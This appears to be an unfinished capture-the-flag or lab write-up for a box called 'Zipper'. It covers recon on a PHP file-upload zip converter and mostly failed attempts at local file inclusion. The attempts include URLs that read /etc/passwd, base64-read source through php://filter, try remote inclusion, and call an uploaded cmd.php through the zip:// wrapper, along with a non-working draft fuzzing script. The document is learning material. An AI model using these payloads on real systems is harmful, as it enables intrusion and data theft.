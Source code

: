 # Zipper Writeup

Name: Zipper
Date:  
Difficulty:  
Goals:  
Learnt:
Beyond Root:

- [[Zipper-Notes.md]]
- [[Zipper-CMD-by-CMDs.md]]


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

![](gospiderrecon.png)

![](uploads.png)

![](403.png)

Before using the form to upload I tested for directory traversal and file reading without success.
![](nodt.png)

Either 
![](zipconverter.png)
I saved this request for fuzzing, analysis and experimentation:
![1080](req.png)

- Questions and Theories - prior to note reading, research and testing.
- How could it work?
	- receive file -> check file -> zip File (without a password or key to encrypt at rest) | zip and then encrypt file  
- How could it be vulnerable and how to attack it: 
	- cmdi on zip software 
	- cmdi on potential encryption-at-rest software post zip
	- bypassing zip conversion to upload a webshell
		- force it to encrypt the zip converter php file to then bypass
		- evasion by filter bypasses, type, field manipulation, content manipulation,

- Interesting
	- accept: wildcard application types `*/*` 
- Look up
	- accept: q=0.8,v=b3;q=0.7
	- accept: application/signed-exchange
	- content-disposition: `name="img[]"`

What did not change when I uploaded test.txt
![](changesintest.png)

![1080](clicktodownload.png)

Intercepted response from the response to the request above
![](interceptthedownloadrequestresp.png)

- What I missed prior to testing:
	- Download functionality
		-  Possibly using [readfile](https://www.php.net/manual/en/function.readfile.php)

No LFI or DT for /uploads/
![](nolfiordtforuploads.png)

Uploaded index.php to be a stealthy
![](uploadingself.png)

It was successful
![](wassuccessful.png)

Resulting compression is from 3342 to 1412 bytes - potential signature based on compress rate?
![](resultingcompression.png)
- Takeways:
	- It accepts any file type
	- We have to control the execution of the zipping upon upload to:
		- Exfiltrate local files - we cant
		- Inject into the fields 
		- Inject into the names that will break 

I took the first hint:
> Discovering an upload for zips, the ability to retrieve zip files, and identifying an LFI can be chained together to achieve RCE

I need to discover the LFI. Almost certainly given the way the application retrieve files must be vulnerable some how.

I tried using payloadsallthethings payload wordlist to fuzz for LFI in a automated manner while I tried finding the source code where the LFI occurs.
![](ffuffuzzalfiondownloadsfromuploadsdir.png)

I compared the wordlist to my notes on encodings and found it practically the same. The next place would the be `index.php?file=`

With sadly similar results:
![](similarissuesonindexFILE.png)

Having put atleast 4 hours in an working through the hints for the second hint:
> We can leverage the LFI to unzip a zip archive using the zip:// wrapper

This is a php wrapper I was unaware of, dorking for this wrapper I found [rioasmara](https://www.google.com/search?client=firefox-b-e&q=php+zip+wrappter) and probably that is because I have not tried to use it.
![](zlibnotzip.png)

The problem is cannot seem to get a file reflected back, which seems to me to be the proof of concept that it would be vulnerable.
```
http://192.168.248.229/index.php?file=/etc/passwd
http://192.168.248.229/index.php?file=upload_1698494389.zip
http://192.168.248.229/index.php?file=php://filter/resource/etc/passwd
http://192.168.248.229/index.php?file=php://filter/resource/uploads/upload_1698494389.zip
http://192.168.248.229/index.php?file=php://filter/convert.base64-encode/resource=index.php

```

I could not RFI either 
```
http://192.168.248.229/index.php?file=http://$ip/test.txt
```

I tried similiar to upload a cmd.php and try to use the `zip://``
```
http://192.168.248.229/index.php?file=zip:/var/www/html/uploads/upload_1698496988.zip%23cmd.php&cmd=whoami
```

![](doublecheckingthesearch.png)

![](triplecheckingthesearch.png)

Background may not be 
![](doesnotlooklikeit.png)

Fuzz for PHP source files in the uploads directory just in case


Last time would be to FUZZ LFI on the filename parameter of the upload request
![](theburpintruder.png)

The problem is we  need to then get the link out of each response to then download and check unzip the file and views its contents, which all means script fool script. Given that I think I may have a way of doing this I will not click to Write up button for atleast another hour additionally just to push myself with Python3 and not bash. If I do not do it in a hour then it is just admit defeat. 

No phind or chatgpt
```python
#!/usr/bin/python3

import requests
import re

# Globals TODO - localise!
uploads_upload_pattern = 'uploads/uploads_^[0-9]{10}\.zip'
wordlist =

# Load a file for payloads
with open(wordlist, "r") as f:
	payloads = f.read()
	for i,payload in enumerate(payloads):

# Send request of the correct format replace FUZZ with a line from the payload file
	r = requests.get()
	
# Take the request and extract the link for line containing 'uploads/upload_'
	payload_zipped_path_line = re.findall(uploads_upload_pattern, r.text)
	
# some f string function to cut out the noise for just uploads/upload_NUMS.zip
	
	payload_zipped_path = #  payload_zipped_path_line 
# download the file 
	url_concat_with_payload_path = f"{URL}{payload_zipped_path}"

# get the name in the response
	payload_zip_filename

# TODO set a path of /tmp
	r = requests.get('url_concat_with_payload_path')

# unzip and cat content to stdin
	unzippable_filepath = f"tmp/{payload_zip_filename}"
	# unzip some how and getting the name
exfil_filename = # TODO ?
exfil_filename_with_path
	with open(exfil_filename_with_path, "r") as f:
	    exfil_data = f.read()	
		print(f"ZIP name - Exfil Filename - Payload")
		print(f"{payload_zip_filename} - {} {}")
		print(exfil_data)

exit

```

## Exploit


## Foothold

## PrivEsc

![](Zipper-map.excalidraw.md)

## Beyond Root

Python scripting 

